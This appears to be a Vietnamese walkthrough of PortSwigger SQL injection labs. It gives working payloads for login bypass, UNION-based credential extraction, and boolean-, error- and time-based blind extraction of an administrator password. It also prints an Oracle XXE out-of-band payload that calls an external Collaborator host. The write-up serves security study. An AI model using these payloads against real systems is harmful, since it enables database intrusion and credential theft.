# SQL Injection

## Labs

### Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

**Yêu cầu**
This lab contains a SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out a SQL query like the following:

`SELECT * FROM products WHERE category = 'Gifts' AND released = 1`
To solve the lab, perform a SQL injection attack that causes the application to display one or more unreleased products.

**Thực hiện**
- Theo mô tả của bài lab, chức năng lọc sản phẩm theo tham số category bị dính SQLi. Các category được liệt kê trên trang chủ.
Theo đề bài có câu query sau: `SELECT * FROM products WHERE category = 'Gifts' AND released = 1;`
- Nhìn vào câu query này và param khi truy cập vào 1 category bất kì thì thấy rằng có thể chèn được 1 inject độc hại vào param `category`. Vì đây là câu lệnh của Mysql nên khả năng sẽ bị inject bằng cách: 
`' or 1=1-- AND released = 1;`

=> Câu query trở thành như sau: `SELECT * FROM products WHERE category = 'Gifts' or '1'='1' -- AND released = 1`


- SQL Injection theo cách trên => Response trả về là 200 và những unreleased product đã hiện ra 


___

### Lab: SQL injection vulnerability allowing login bypass

**Yêu cầu**
This lab contains a SQL injection vulnerability in the login function.
To solve the lab, perform a SQL injection attack that logs in to the application as the ``administrator`` user.

**Thực hiện**
- Thực hiện bài lab, chúng ta sẽ thấy 1 trang login cho người dùng hoặc admin đăng nhập. Chúng ta nhập thử 1 username và password bất kì => bắt được request và thấy rằng có 3 tham số khi đăng nhập là: `csrf`, `username` và `password`. 



- Đoán web server sẽ dùng câu query sau để đăng nhập: `Select * from users where username = ? and password = ?;` => chèn payload thần thánh: `admin' or 1=1--` vào param username => vào được admin account



**Notes**
Luôn luôn xác thực và làm sạch dữ liệu đầu vào để ngăn chặn SQL injection.

___

### Lab: SQL injection attack, querying the database type and version on Oracle

**Yêu cầu**
This lab contains a SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.
To solve the lab, display the database version string.

**Thực hiện**
- Bài lab này khai thác lỗ hổng SQLi tại tham số `category`. Lần này mục tiêu sẽ là lấy được version của database Oracle.


- Xác định số cột



- Sử dụng payload `category=Gifts'+UNION+select+null,null+--+-` hay `category=Gifts' UNION SELECT 'A', 'b' -- -` đều trả về lỗi
- Trong Oracle database, khi sử dụng câu lệnh `SELECT` thì phải xác định nó lấy từ bảng hợp lệ nào với `FROM`. Oracle tồn tại một bảng mặc định `dual`. Ta có thể sử dụng nó để thực hiện SELECT thành công như hình dưới. Kết quả trả về 2 cột đều được hiển thị thành công.



- Bây giờ ta chỉ cần sử dụng payload `category=Gifts' UNION SELECT 'a', banner FROM v$version -- -` để lấy thông tin version của Oracle database.


**Notes**
Dưới đây là bảng cheatsheet truy vấn kiểm tra phiên bản trong các hệ quản trị cơ sở dữ liệu:  

| **Database**   | **Query to Check Version**                              | **Notess** |
|---------------|------------------------------------------------------|---------|
| **Oracle**    | `SELECT banner FROM v$version`   `SELECT version FROM v$instance` | Cần có bảng khi thực hiện SELECT, có thể dùng `dual` |
| **Microsoft SQL Server** | `SELECT @@version` | |
| **PostgreSQL** | `SELECT version()` | |
| **MySQL**      | `SELECT @@version` | |
| **Oracle (Special Case)** | `Gifts' UNION SELECT 'a', banner FROM v$version -- -` | Trong UNION SELECT, phải đảm bảo số cột phù hợp |

___

### Lab: SQL injection attack, listing the database contents on non-Oracle databases

**Yêu cầu**
This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.
The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.
To solve the lab, log in as the ``administrator`` user.

**Thực hiện**
- Bài lab này yêu cầu phải đi tìm tên bảng cũng như tên cột có chứa tài khoản của các users chứ không cho sẵn như bài trên. Đây là một bài trên hệ quản trị không phải Oracle.


- Đầu tiên, ta xác định được số cột trả về là 2 (giống bài trên). Thử kiểm tra cách hiển thị các cột với payload `category=a' UNION SELECT null,null`.
  

- Xác định kiểu dữ liệu với payload: `category=a' UNION SELECT 'a','b'`


- Xác định các bảng trong db với payload
`category=Pets'+union+select+table_name,'b'+from+information_schema.tables+--+-`



=> Chúng ta tìm được bảng users với cái tên có thêm postfix đằng sau 


- Xác định các cột trong bảng pg_user với payload sau: 
`category=Pets'+union+select+column_name,'b'+from+information_schema.columns+where+table_name='users_uzpbpo'+--+-`
=> Xác định được bảng users có 3 cột, trong đó có 2 cột là username và password



- Tìm tài khoản và password của admin với payload sau: 
`Pets'+union+select+username_lhjoix,password_dyqvam+from+users_uzpbpo+--+-`


**Notes**
`information_schema`: là 1 database chứa các thông tin liên quan đến cấu trúc của các database khác. Ta dựa vào đó để có thể truy xuất thông tin cấu trúc của các table ( row, column,...). 
Với mỗi BDSM khác nhau thì sẽ có db chứa thông tin cấu trúc khác nhau với MySQL, POSTGRE,... thì là `information_schema`.

___

### Lab: SQL injection attack, listing the database contents on Oracle

**Yêu cầu**
This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.
The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.
To solve the lab, log in as the `administrator` user.

**Thực hiện**
- Bài lab này tương tự bài trên, chỉ khác là tấn công SQLi đối với Oracle database. Tương tự, ta cũng xác định được số cột trả về của câu query là 2. Kiểm tra cách hiển thị bằng payload trên hình:



- Ta sẽ đi liệt kê tên các table đang có trong database:  
`Gifts'+union+select+table_name,'b'+from+all_tables+--+-` => xuất hiện table của users



- Ta sẽ đi tìm các cột có chứa table này bằng payload:
`Gifts'+union+select+column_name,'b'+from+all_tab_columns+where+table_name='USERS_XODUPW'+--+-`


- Dựa vào kết quả, ta trích xuất được tên 2 cột có trong bảng USERS_GSEMNG là USERNAME_RKTXFE và PASSWORD_YCJIMQ. Lúc này chỉ việc dùng payload `a' UNION SELECT USERNAME_...., PASSWORD_... FROM USERS_... -- -` để xem được tài khoản `administrator`.


**Notes**
Lưu ý Oracle thì khi select sẽ phải có from từ 1 bảng nào đó (như là bảng mặc định trong Oracle là dual)
Khác với MySQL, thì trong Oracle sẽ dùng `all_tables` và `all_tab_columns`, không dùng `information_schema` để liệt kê như MySQLMySQL

___

### Lab: SQL injection UNION attack, determining the number of columns returned by the query

**Yêu cầu**
This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. The first step of such an attack is to determine the number of columns that are being returned by the query. You will then use this technique in subsequent labs to construct the full attack.
To solve the lab, determine the number of columns returned by the query by performing a SQL injection UNION attack that returns an additional row containing null values.

**Thực hiện**
- Đây là dạng bài lab sử dụng UNION trong SQL để thực hiện trích xuất thông tin của table khác. Mục tiêu bài này sẽ là đi xác định số cột trả về của câu query bị dính SQLi, rồi sau đó sẽ dùng UNION dựa trên số cột đã xác định để trả về thêm 1 hàng chứa toàn giá trị null.
- Tham số category chính là nơi để khai thác SQLi.


- Sử dụng UNION với payload => sovle thành công challenge
`Lifestyle'+union+select+null,null,null+--+-`


**Notess**
Thông thường dùng `order` by xác định số cột. Payload: 
`category=Gifts' ORDER BY 3 -- -`. Ngoài ra chúng ta cũng có thể xác định số cột thông qua `Union`.

### Lab: SQL injection UNION attack, finding a column containing text

**Yêu cầu**
This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you first need to determine the number of columns returned by the query. You can do this using a technique you learned in a previous lab. The next step is to identify a column that is compatible with string data.
The lab will provide a random value that you need to make appear within the query results. To solve the lab, perform a SQL injection UNION attack that returns an additional row containing the value provided. This technique helps you determine which columns are compatible with string data.

**Thực hiện**
- Bài lab này tương tự bài lab trên, chỉ khác là thay vì hiển thị hàng chứa giá trị null thì sử dụng UNION để hiển thị chuỗi bất kì, cụ thể là `yNBXRx`. 
- Số cột trả về là 3 và ta cần tìm xem cột nào trong 3 cột đó sẽ được hiển thị.
- Xác định số cột: 


- Xác định kiểu dữ liệu
`Gifts'+union+select+null,'a',null+--+-`

___

### SQL injection UNION attack, retrieving data from other tables

**Yêu cầu**
This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you need to combine some of the techniques you learned in previous labs.
The database contains a different table called users, with columns called username and password.
To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the `administrator` user.

**Thực hiện**
- Tương tự với bài trên, bài lab này sử dụng UNION attack để lấy username và password của bảng users. Lỗ hổng SQLi vẫn nằm ở tham số category.

- Xác định số cột bằng payload sau: 
`category=Pets' union select null,null -- -`

=> Xác định được số cột là 2 

- Xác định kiểu dữ liệu


- Tiến hành khai thác dựa trên dữ liệu đã biết. Payload:
`Pets' union select null,password from users where username='`administrator`'-- -`



___

### Lab: SQL injection UNION attack, retrieving multiple values in a single column

**Yêu cầu**
This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.
The database contains a different table called users, with columns called username and password.
To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the `administrator` user.

**Thực hiện**
- Xác định số cột:
`category=Gifts' union select null,null -- -`


- Xác định kiểu dữ liệu:

=> cột thứ 2 là kiểu dạng `string`
=> cột thứ nhất là kiểu `integer`

- Chúng ta cần lấy 2 cột từ bảng users, đều là dạng `string` nhưng bảng category chỉ có 1 cột có kiểu dữ liệu là `string` => phải ghép 2 cột từ bảng users lại.
- Có 1 phương pháp string concatenation để ghép 2 cột lại với nhau: 


**Notess**
String concatenation được sử dụng để ghép nối hai cột (username và password) lại với nhau thành một cột duy nhất. Vì ứng dụng chỉ hiển thị một cột có kiểu dữ liệu chuỗi, nên cần phải kết hợp hai giá trị thành một chuỗi liên tục. Cú pháp ghép nối phụ thuộc vào hệ quản trị CSDL:

| **Database**   | **String Concatenation Query**         |
|---------------|--------------------------------|
| **Oracle**    | `'foo'||'bar'`                 |
| **Microsoft SQL Server** | `'foo'+'bar'`               |
| **PostgreSQL** | `'foo'||'bar'`                 |
| **MySQL**      | `'foo' 'bar'`   `CONCAT('foo','bar')` |

___

### Lab: Blind SQL injection with conditional responses

**Yêu cầu**
This lab has a blind SQL injection vulnerability. It processes a tracking cookie in a SQL query but does not return results or display errors. However, a "Welcome back" message appears if the query returns rows.  
The database has a `users` table with `username` and `password` columns. Exploit the vulnerability to retrieve the `administrator` password.

**Thực hiện**
- Đây là dạng bài Blind SQLi sử dụng Boolean-based để lấy được tài khoản `administrator`. Lỗ hổng nằm ở cookie TrackingID.
- Khi thêm dấu `'` vào trường `TrackingID`, ta nhận thấy không có gì xảy ra.


- Tuy nhiên khi sử dụng payload `9Zr8DC77HqRBUaa' or '1'='1'--` , một dòng chữ `Welcome back!` xuất hiện => nếu query đúng thì `Welcome back!` sẽ được hiển thị.


- Như vậy ta có thể đi tìm password của user adinistrator trong bảng users bằng cách bruteforce từng kí tự với hàm `substr()`.
- Trước tiên, ta sẽ đi bruteforce tìm độ dài của password trước với payload sau: `9Zr8DC77HqRBUaa' or (select length(password) from users where username='`administrator`')=<bruteforce wordlist> --`. Bruteforce wordlist sẽ là dãy số từ 1 → 30.


- Kết quả cho thấy, với giá trị 20, dòng chữ `Welcome back!` đã hiển thị → `password` dài 20 kí tự. 
- Bây giờ, sử dụng substr để tìm từng kí tự của password. Nếu kí tự thứ `i` bằng với kí tự `x` trong wordlist bruteforce thì điều kiện query đúng → Dòng `Welcome back!` được hiển thị. Sử dụng wordlist là các kí tự từ `[a-zA-Z0-9]` kèm theo payload sau: `9Zr8DC77HqRBUaa' or substr((select password from users where username='`administrator`'),§1§,1)='§a§' --`.


- Kết quả bruteforce trả về từng kí tự trong 20 kí tự của password nhưu hình dưới.


**Notes**
Trong blind SQL injection, ứng dụng không hiển thị lỗi hoặc dữ liệu trực tiếp từ truy vấn. Thay vào đó, cần dựa vào phản hồi gián tiếp như thay đổi nội dung trang (Boolean-based) hoặc độ trễ phản hồi (Time-based) để xác định kết quả. Hiểu rõ cách ứng dụng xử lý payload giúp khai thác lỗ hổng hiệu quả.

___

### Lab: Blind SQL injection with conditional errors

**Yêu cầu**
The application has a **blind SQL injection** vulnerability in the tracking cookie but does not respond differently based on query results. If an SQL error occurs, a custom error message is displayed.  
The database contains a `users` table with `username` and `password` columns. Exploit the vulnerability to retrieve the `administrator` password and log in to complete the lab.

**Thực hiện**
- Bài lab này cũng có lỗ hổng Blind SQLi ở trường Cookie `TrackingID`. Bài lab sẽ sử dụng `Error-based` để trigger lỗi được custom bởi ứng dụng web.
- Khi thêm 1 dấu `'` vào TrackingID cookie, ứng dụng báo lỗi.


- Tuy nhiên khi thêm 1 dấu `''` vào TrackingID cookie, ứng dụng trả về nội dung bình thường → Lỗi SQLi.


- Trước tiên, ta đi xác định số cột trả về của query bằng ORDER BY.


- Kết quả trả về, với `' ORDER BY 2 --`  thì server trả lỗi còn `' ORDER BY 1 --`  sẽ hiển thị nội dung → Câu query lấy 1 cột.


- Thử UNION với `' UNION SELECT null --`  thì thấy server lại báo lỗi → Đây có thể là lỗi do hệ quản trị database là Oracle vì nó cần SELECT từ một table tồn tại.


- Ta kiểm chứng được đó chính là Oracle với payload `' UNION SELECT null from dual --`.


- Xác định được cột trả về có kiểu dữ liệu chuỗi



- Tìm password cho user `administrator` có trong bảng users bằng phương pháp Error-based: 
`' UNION SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual`
- Khi điều kiện sau WHEN đúng → server thực thi TO_CHAR(1/0) → Server trả lỗi do `1/0` không thực thi được. Ở đây dùng TO_CHAR() vì cột trả về có kiểu dữ liệu chuỗi.


- Nếu điều kiện sau WHEN sai → server không trả lỗi.


- Như vậy, ta chỉ cần tìm các điều kiện đúng liên quan đến password thì server sẽ báo lỗi → đây là dấu hiệu.
- Tương tự bài trước ta cần xác định độ dài của password: 
`' UNION SELECT CASE WHEN (length(password)=§0§) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='`administrator`' --` => password gồm 20 kí tự.

- Tiếp theo, ta sẽ đi tìm kiếm từng kí tự trong password: 
`' UNION SELECT CASE WHEN (substr(password,§1§,1)=§a§) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='`administrator`' --`
=> dùng burp intruder để tự động chạy payload tự động và tìm được password

**Notes**
Ứng dụng không hiển thị kết quả truy vấn hay phản hồi khác biệt khi truy vấn đúng/sai, mà chỉ hiển thị lỗi nếu xảy ra lỗi SQL. Do đó, cần xây dựng payload sao cho điều kiện đúng sẽ gây lỗi (ví dụ: chia cho 0) để xác định kết quả.  
Ngoài ra, cần sử dụng có cách để xác định độ dài và từng ký tự của mật khẩu như payload `CASE WHEN (điều kiện) THEN TO_CHAR(1/0) ELSE '' END`. Có thể dùng Intruder hoặc script để tự động hóa, nhưng gửi quá nhiều request có thể bị WAF chặn.

___

### Lab: Blind SQL injection with time delays
**Yêu cầu**
The application has a blind SQL injection vulnerability in the tracking cookie but does not return query results or show different responses based on success or errors. However, since queries run synchronously, time-based delays can be used to infer information.  
Exploit the vulnerability to trigger a `10-second delay` to complete the lab.

**Thực hiện**
- Chúng ta cần trigger thời gian để có thể xác định được liệu câu lệnh tiêm SQL có được thực thi hay không.
- Sử dụng `sleep(10);` để xác định.


**Notes**
SQL injection với time delays không dựa vào phản hồi nội dung hay lỗi mà dựa vào thời gian phản hồi của server. Nếu payload gây ra độ trễ (ví dụ: 10 giây), có thể xác định điều kiện trong truy vấn đã được thỏa mãn.  
Cần đo thời gian phản hồi của ứng dụng khi không có payload delay để so sánh với phản hồi sau khi inject. Nếu thời gian tăng đáng kể, đó là dấu hiệu khai thác thành công (hoặc cũng có thể do mạng lag).  
Nhược điểm của phương pháp này là dựa vào chờ đợi, khiến quá trình khai thác chậm hơn, đặc biệt khi cần brute-force ký tự hoặc độ dài dữ liệu.

| **Database**            | **Time Delay Payload**              |
|-------------------------|------------------------------------|
| **Oracle**             | `dbms_pipe.receive_message(('a'),10)` |
| **Microsoft SQL Server** | `WAITFOR DELAY '0:0:10'`          |
| **PostgreSQL**          | `SELECT pg_sleep(10)`             |
| **MySQL**               | `SELECT SLEEP(10)`                |

___

### Lab: Blind SQL injection with time delays and information retrieval
**Yêu cầu**
The application has a blind SQL injection vulnerability in the tracking cookie. It does not return query results or show different responses based on success or errors. However, since queries run synchronously, time-based delays can be used to infer information.  
The database has a users table with username and password columns. Exploit the vulnerability to retrieve the administrator password.
To solve the lab, log in as the `administrator` user.

**Thực hiện**
- Ta sẽ sử dụng kĩ thuật Time-based để trích xuất thông tin của các table khác có trong database.
- Payload `'; SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END--`  tương tự bài lab trên, response bị delay `10s` thành công.


- Lúc này ta sẽ đi tìm password của user `administrator` từ bảng users. Ta sẽ thử kiểm tra LENGTH(password) trước với payload `'; SELECT CASE WHEN (LENGTH(password)>§1§) THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users WHERE username='`administrator`'--` => tìm được password gồm 20 kí tự


- Tương tự những cách làm bài trước, ta sẽ dùng `SUBSTRING()` để tìm từng kí tự. Sử dụng câu payload sau: `'; SELECT CASE WHEN (SUBSTRING(password,§1§,1)='§a§') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users WHERE username='`administrator`'--` => tìm được password của admin

**Notes**
Đây là 1 dạng brute-force dựa trên lỗi sql injection với time delays.
Khác với Error-base thì tín hiệu đúng/sai của một câu truy vấn sẽ được nhận biết thông qua thời gian phản hồi.

___

### Lab: Blind SQL injection with out-of-band interaction
**Yêu cầu**
The application has a blind SQL injection vulnerability in the tracking cookie. The query runs asynchronously and does not affect the response. However, it can trigger out-of-band interactions with an external domain.  
Exploit the vulnerability to generate a DNS lookup to Burp Collaborator to complete the lab.

**Thực hiện**
- Bài lab tiếp tục khai thác lỗ hổng SQLi tại cookie `TrackingID`. Tuy nhiên, ứng dụng web trong bài này sẽ sử dụng dạng Out-of-band SQLi để tương tác với external domain (domain mà ta control).
- Ta sẽ thử lần lượt các payload Out-of-band để xác định đúng loại hệ quản trị database. Cụ thể, mục tiêu sẽ là tạo ra cac `DNS lookup query` đến bên ngoài.


- Sau khi sử dụng payload Oracle ``ciFdsudSC71jEhYH';SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "https://ng7xgaf6sqtwjx0caha8k36d147vvsjh.oastify.com/"> %remote;]>'),'/l') FROM dual--``, ứng dụng đã gửi DNS query đến Burp Collaborator.  
- Payload này khai thác lỗ hổng XXE bằng cách tạo một `parameter entity remote` sử dụng keyword `SYSTEM` để truy xuất dữ liệu từ domain do attacker kiểm soát, giúp xác nhận lỗ hổng và khả năng thực thi truy vấn trên hệ thống.


- Như vậy, ứng dụng web sử dụng Oracle và bị trigger Out-of-band SQLi thông qua hàm `EXTRACTVALUE()` xử lí XML.

**Notes**
SQL injection với out-of-band interaction không dựa vào phản hồi trực tiếp từ web mà xác nhận thông qua các tương tác bên ngoài, như DNS lookup. Khi ứng dụng không trả về dữ liệu hay lỗi rõ ràng, phương pháp này giúp khai thác lỗ hổng bằng cách theo dõi yêu cầu gửi ra bên ngoài.  
Trong các bài lab của PortSwigger, do hệ thống chặn kết nối webhook, Burp Collaborator được sử dụng để nhận request xác nhận payload đã thực thi. Trong thực tế, có thể sử dụng server riêng hoặc webhook để theo dõi phản hồi từ ứng dụng.  
Mỗi hệ quản trị cơ sở dữ liệu có cú pháp riêng để thực hiện out-of-band interactions, cho phép khai thác dữ liệu ngay cả khi không có phản hồi trực tiếp từ hệ thống.

| **Database**            | **Out-of-Band Interaction Payload**              |
|-------------------------|------------------------------------------------|
| **Oracle**             | `EXTRACTVALUE(xmltype(...),'/l') FROM dual`    |
| **Microsoft SQL Server** | `UTL_INADDR.get_host_address()`               |
| **PostgreSQL**          | `copy (...) to program 'nslookup ...'`        |
| **MySQL**               | `LOAD_FILE()` or `SELECT ... INTO OUTFILE` with UNC path |
